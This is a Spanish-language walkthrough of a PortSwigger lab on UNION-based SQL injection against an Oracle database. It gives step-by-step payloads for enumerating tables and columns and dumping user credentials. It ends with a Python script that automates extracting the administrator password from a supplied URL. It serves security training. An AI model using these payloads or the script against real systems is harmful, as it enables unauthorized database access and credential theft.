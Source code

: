 ```yaml
---
title: "10 SQL injection attack, listing the database contents on Oracle"
collection: publications
category: portswigger
permalink: /publications/10_SQL injection attack, listing the database contents on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos Oracle que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-10/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-10/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-10/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-10/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', ya que es una BD oracle debemos llamar la  tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-10/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

![DB version]({{site.url}}/images/SQLi/sqli-10/DB version.png)

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-10/version.png)

## Obtenemos todas las tablas

Ya sabemos que es una BD Oracle debemos listar las tablas

```javascript
' UNION SELECT table_name, NULL FROM all_tables--
```

```Tabla
USERS_HZTDAO
```

![tablas]({{site.url}}/images/SQLi/sqli-10/tablas.png)

## Obtenemos el nombre de las columnas

Ya sabemos que la tabla se llama `USERS_HZTDAO` ahora listamos las filas de la tabla

```javascript
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_HZTDAO'--
```

```
USERNAME_PFWFAV
PASSWORD_RXDLTE
```

![nombre columnas]({{site.url}}/images/SQLi/sqli-10/nombre columnas.png)

## Listamos el usuario y password

```javascript
' UNION select USERNAME_PFWFAV, PASSWORD_RXDLTE from USERS_HZTDAO--
```

![Password]({{site.url}}/images/SQLi/sqli-10/password.png)

## Realizamos Login

![Login]({{site.url}}/images/SQLi/sqli-10/login.png)

## Resuelto

![Login]({{site.url}}/images/SQLi/sqli-10/Aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = "/filter?category=Gifts"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text

def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM all_tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('^USERS\_.*'))
    return users_table

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = '%s'-- " % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*USERNAME.*'))
    password_column = soup.find(text=re.compile('.*PASSWORD.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" % (username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for the users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s " % username_column)
            print("Found the password column name: %s" % password_column)

            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("Did not find the administrator password")
        else:
            print("Did not find the username and/or the password columns")
    else:
        print("Did not find a users table.")
```